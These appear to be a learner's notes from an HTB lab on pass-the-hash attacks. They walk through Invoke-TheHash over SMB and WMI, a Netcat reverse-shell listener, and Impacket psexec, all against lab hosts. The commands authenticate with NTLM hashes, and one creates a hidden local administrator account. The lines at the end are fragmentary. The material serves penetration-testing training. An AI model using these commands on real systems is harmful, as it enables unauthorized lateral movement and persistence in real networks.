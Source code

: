 #### <mark class="hltr-grey">Invoke-TheHash with SMB</mark>

```powershell-session
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

We can also get a reverse shell connection in the target machine.
To get a reverse shell, we need to start our listener using Netcat on our Windows machine, which has the IP address 172.16.1.5. We will use port 8001 to wait for the connection.

Starting the listener:
```powershell-session
PS C:\tools> .\nc.exe -lvnp 8001
```

![[Pasted image 20240911181929.png]]

Now we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer. Notice that instead of providing the IP address, which is `172.16.1.10`, we will use the machine name `DC01` (either would work).

```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "revshell payload"
```

#### <mark class="hltr-grey">Invoke-TheHash with WMI</mark>

```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "revshell payload"
```


### <mark class="hltr-orange">PTH with Impacket (Linux)</mark>

[Impacket](https://github.com/SecureAuthCorp/impacket) has several tools we can use for different operations such as `Command Execution` and `Credential Dumping`, `Enumeration`, etc. For this example, we will perform command execution on the target machine using `PsExec`.

**Pass The Hash with Impacket PsExec**
```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>